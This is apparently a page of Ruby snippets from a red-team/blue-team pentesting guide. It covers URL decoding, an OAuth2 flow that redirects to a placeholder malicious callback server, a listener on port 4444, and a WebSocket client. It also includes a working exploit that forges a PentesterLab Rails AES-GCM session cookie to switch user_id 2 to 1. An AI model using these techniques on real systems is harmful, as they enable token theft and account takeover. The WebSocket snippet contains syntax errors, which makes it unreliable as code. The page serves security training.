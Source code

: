 ## CODE EXAMPLES
1. [DECODING](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Ruby.md#decoding)
2. [OAUTH2 TOKEN](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Ruby.md#oauth2-token)
3. [PROXY](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Ruby.md#proxy)
4. [RUBY ON RAILS: AES-GCM SIGNED SESSION](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Ruby.md#ruby-on-rails-aes--gcm-signed-session)
5. [WEBSOCKET](https://github.com/p-arrow/Red-Blue-Guide/blob/main/Coding/Ruby.md#websocket)

<br />

### DECODING
- URL-Decode in Ruby: `require 'uri'; URI.decode("http%3A%2F%2Fexample.com%2F%3Fa%3Druby%20uri%20decode")`

<br />

### OAUTH2 TOKEN 
- Firstly, `gem install oauth2`
```
require 'oauth2'

callback = "http://yourMaliciousServer.com"
app_id = " "

secret = " "
client = OAuth2::Client.new(app_id, secret, site: "http://authorization-server.com")
client.auth_code.authorize_url(redirect_uri: callback)


code = " "
access = client.auth_code.get_token( code, redirect_uri: callback)
access.get("/api/user").parsed

puts access.token
```

<br />

### PROXY
- More Advanced: [https://gist.github.com/jhnbwrs/dff50c0c9515f2358ac0](https://gist.github.com/jhnbwrs/dff50c0c9515f2358ac0)
```
# REQ: sudo gem install sinatra

require 'net/http'
require 'uri'
require 'sinatra'

set :port, 4444
set :bind, '0.0.0.0'

get '/' do
  uri = URI("http://...")
  resp = Net::HTTP.get_response(uri)
  loc = resp.header['location']
  text = "Hello Visitor!"
end
```

### RUBY ON RAILS: AES-GCM SIGNED SESSION 
- Helpful: [https://emanual.github.io/ruby-docs](https://emanual.github.io/ruby-docs/classes/OpenSSL/Cipher/CipherError.html)
```
require 'uri'
require 'cgi'
require 'base64'
require 'openssl'

cookie = URI.decode("iowp3WAChN4G....TmF9TMUgkDepg%3D--xguco..6khpC--wdizT8Aw..3D%3D")

def secret()
    secret = Digest::MD5.hexdigest("PentesterLab::Application")
    OpenSSL::PKCS5.pbkdf2_hmac_sha1(secret, "authenticated encrypted cookie", 1000, 32)
    end

def decrypt(cookie)
    cipher = OpenSSL::Cipher.new("aes-256-gcm")
    encrypted_data, iv, auth_tag = cookie.split("--".freeze).map { |v| ::Base64.strict_decode64(v) }
    cipher.decrypt
    cipher.key = secret()
    cipher.iv  = iv
    cipher.auth_tag = auth_tag
    cipher.auth_data = ""
    decrypted_data = cipher.update(encrypted_data) + cipher.final
    end

def encrypt(string)
    cipher = OpenSSL::Cipher.new("aes-256-gcm")
    cipher.encrypt
    cipher.key = secret()
    iv = cipher.random_iv
    cipher.auth_data = ""
    encrypted_data = cipher.update(string) + cipher.final
    blob = "#{::Base64.strict_encode64 encrypted_data}--#{::Base64.strict_encode64 iv}"
    blob = "#{blob}--#{::Base64.strict_encode64 cipher.auth_tag}"
    blob
    end

string = decrypt(cookie)
string = string.sub! '"user_id":2', '"user_id":1'
puts CGI.escape(encrypt(string))


# Example string = {"session_id":"7ee48973...952f595","_csrf_token":"+UV6rbAMo6QW...6lAGP8=","user_id":1}
# Output: 6k5xPNUYdUbZX9eH...BGZ%2BfyPvi9CU%2BZOD5qKVc%3D--61raV%2BxHyFVR4Rv3--KiSR%2F9hZqMfntNewcCm9kQ%3D%3D
```

## WEBSOCKET
```
#REQ gem install websocket-eventmachine-client

require 'websocket-eventmachine-client'

EM.run
  ws = WebSocket::EventMachine::Client.connect(uri: 'ws://example.com')
  ws.onopen do
    send.("key")
  end
  ws.onmessage do |msg, type|
    puts msg
  end
end
